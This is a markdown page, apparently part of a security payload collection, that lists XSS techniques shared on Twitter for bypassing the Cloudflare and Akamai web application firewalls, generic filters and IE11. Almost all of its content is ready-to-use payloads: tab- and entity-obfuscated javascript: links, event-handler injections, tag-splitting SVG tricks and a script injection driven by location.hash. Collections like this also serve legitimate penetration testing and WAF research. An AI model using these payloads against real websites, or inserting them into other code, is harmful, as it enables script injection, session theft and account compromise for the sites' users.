 # XSS Twitter Tips

## Cloudflare XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

[Tweet](https://twitter.com/s0md3v/status/1100734547962998785) By [s0md3v](https://twitter.com/s0md3v)
```html
<a"/onclick=(confirm)()>Click Here!
```

----------------------------------------------------------------------------------------

## Akamai XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*
```html
“><svg/on</script>laod=alert>
```

*[Tweet](https://twitter.com/saamux/status/1238449598051516418) By [saamux](https://twitter.com/saamux)*

A good way to bypass the Akamai WAF by exploiting a redirect-based XSS is with the following payload:

```javascript
javascript:new%20Function`al\ert\`1\``;
```
You can also obfuscate it using HTML entities

------------------------------------------------------------------------------------------

## WAF/filter Bypass
[Tweet](https://twitter.com/si9int/status/1239633166438223874) By [si9int](https://twitter.com/si9int)
![XSS](https://images-ext-1.discordapp.net/external/igR8oewSZci1zKzKoqk0xr9PunkJoDHTmGgLLi6FYfw/https/pbs.twimg.com/media/ETQPvU3WoAMiDBw.png%3Alarge)



## IE Bypass

IE 11 Xss Bypass [h1 report](https://hackerone.com/reports/127259) by [sergeym](https://hackerone.com/sergeym)

```html
"</script><script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.domain)
